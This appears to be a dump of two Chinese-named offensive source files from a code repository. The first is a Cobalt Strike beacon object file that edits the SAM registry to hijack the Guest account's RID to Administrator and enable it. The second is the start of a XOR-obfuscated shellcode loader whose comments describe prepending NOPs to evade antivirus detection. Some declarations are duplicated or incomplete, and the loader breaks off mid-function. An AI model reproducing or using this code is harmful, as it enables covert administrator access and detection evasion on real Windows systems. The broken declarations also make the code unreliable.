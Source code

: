 ----------------------------------------

## File: 开发一个BOF.c

```
﻿#include "beacon.h"
#include <Windows.h>
#include <stdio.h>

DECLSPEC_IMPORT WINADVAPI LONG WINAPI ADVAPI32$RegOpenKeyExA(HKEY, LPCWSTR, DWORD, REGSAM, PHKEY);
DECLSPEC_IMPORT WINADVAPI LONG WINAPI ADVAPI32$RegQueryValueExA;
DECLSPEC_IMPORT WINADVAPI LONG WINAPI ADVAPI32$RegQueryValueExA;
DECLSPEC_IMPORT WINADVAPI LONG WINAPI ADVAPI32$RegCloseKey(HKEY);

int  main()
{
	HKEY hKey = NULL;
	PCHAR KeyAddr = NULL;
	DWORD KeySize;
	DWORD KeyType;
	BYTE Buffer[0x50] = { 0 };
	KeyAddr = (PCHAR)"SAM\\SAM\\Domains\\Account\\Users\\000001F5";

	RegOpenKeyExA(HKEY_LOCAL_MACHINE, KeyAddr, 0, KEY_ALL_ACCESS, &hKey);
	RegQueryValueExA(hKey, "F", NULL, &KeyType, (LPBYTE)&Buffer, &KeySize);

	Buffer[0x30] = (BYTE)0xf4; //hijack rid
	Buffer[0x38] = (BYTE)0x14; //enable guest

	RegSetValueExA(hKey, "F", NULL, KeyType, Buffer, KeySize);
	RegCloseKey(hKey);
	return 0;
}
```

----------------------------------------

## File: 异或+混淆.cpp

```
﻿// 异或+混淆.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//

#include <iostream>
#include <string.h>
#include "windows.h"
#include <string>
#define uint UINT
using std::string;

string get_nop(char num) {
    //在 bin 文件前面插上几个 \x90 来绕过检测
    
}


//防止找不到配置文件
//解决在其他目录调用exe可能会找不到文件的问题
string get_path()
{
    char szFilePath[MAX_PATH + 1] = { 0 };
    GetModuleFileNameA(NULL, szFilePath, MAX_PATH);
    (strrchr(szFilePath, '\\'))[0] = 0;
    string path = szFilePath;
```